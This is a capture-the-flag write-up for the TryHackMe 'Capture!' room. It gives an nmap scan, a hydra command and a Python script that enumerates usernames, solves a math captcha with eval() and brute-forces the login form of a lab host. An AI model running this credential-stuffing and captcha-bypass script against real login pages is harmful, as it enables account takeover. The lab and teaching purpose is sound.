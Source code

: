 # Capture! Writeup by 1nsouciance (l1asis)
![Room Picture](./images/room.png)

## Hi everyone! ***Capture!*** room on TryHackMe is pretty simple, but interesting room... Let's break it down!

## ***Resources***
### Make sure you download the .zip archive with logins and passwords provided by the room creator!

## ***Step 1: Reconnaissance***
### Nmap is powerful and handful tool for enumerating targets, so let's begin with it:
```bash
sudo nmap -sS -Pn 10.10.170.111
```
### **Nmap Results:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:00 BST
Nmap scan report for localhost (10.10.170.111)
Host is up (0.52s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.15 seconds
```

### There's a website. Let's check it with our browser:
![Screenshot](./images/screen1.png)

### **Login page!** Errors and incorrect credentials is our close friends right now! (you have to enter something and try to login)
![Screenshot](./images/screen2.png)

### **Oh no...** But now we do know, that the first security breach of this login form is that it shows us, whether the user exist or not! It is important to remember this.

## ***Step 2.1: Dictionary attack with Hydra***
### I will say up front, I tried to breach this login form with 'hydra' right away, but the long time without results showed that there was something else we didn't take into account...
```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.170.111/login:username=^USER^&password=^PASS^:Error"
```

### **Let's check the form with incorrect credentials one more time:**
![Screenshot](./images/screen3.png)

### **A-ha!** Mathematical captcha! From this moment, the most interesting stage of login form hacking begins: we'll write **an automated script in Python!**

## ***Step 2.2: Scripting***
### First of all we have to import two very useful libraries with `import` keyword, read our usernames and passwords from the files into lists and create url variable:
```python
import requests, re

url = "http://10.10.170.111/login"

with open("usernames.txt", "rt") as fd:
	usernames = fd.read().splitlines()
	
with open("passwords.txt", "rt") as fd:
	passwords = fd.read().splitlines()
```

### Next step may be a little bit hard to understand for beginners in hacking/programming. We'll create a regular expression for finding captcha string in the html server responses later:
```python
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
```
### **P.S.** There's two useful websites, where you can read more about it, or practice creating your own regular expressions:
### | [Wiki](https://en.wikipedia.org/wiki/Regular_expression) | [Regex101](https://regex101.com/) |
 

### **Right then** we'll create function, that will send POST request, trying to log in:
```python
def send_post(username, password, captcha=None):
	data = {
		"username":username,
		"password":password,
	}
	if captcha:
		data.update({"captcha":captcha})
	response = requests.post(url=url, data=data)
	return response
```

### And another function to find the captcha equation and solve it with built-in python function `eval()`:
```python
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Then we'll try to find next captcha solution:
```python
for count in range(100):
	response = send_post("darthvader", "lukesfather")
	try:
		captcha = solve_captcha(response)
		print(f"Captcha synchronised! Next solution is: {captcha}")
		break
	except:
		pass
```

### **And our final block of code!** We'll iterate through all our usernames and passwords ***(but trying to identify existing username first)*** and then try all passwords to login:
```python
for username in usernames:
		response = send_post(username, "None", captcha)
		captcha = solve_captcha(response)
		if not "does not exist" in response.text:
			for password in passwords:
				response = send_post(username, password, captcha)
				if not "Error" in response.text:
					print(f"Success! Username:{username} Password:{password}")
					exit(0)
				else:
					captcha = solve_captcha(response)
```

## ***Phew.*** TIME X!
![Screenshot](./images/screen4.jpg)

## ***Finally :\)*** Let's now grab our flag...
![Screenshot](./images/screen5.jpg)

## **I hope you enjoyed my writeup. You can find the script in this repository. Be safe! <3**
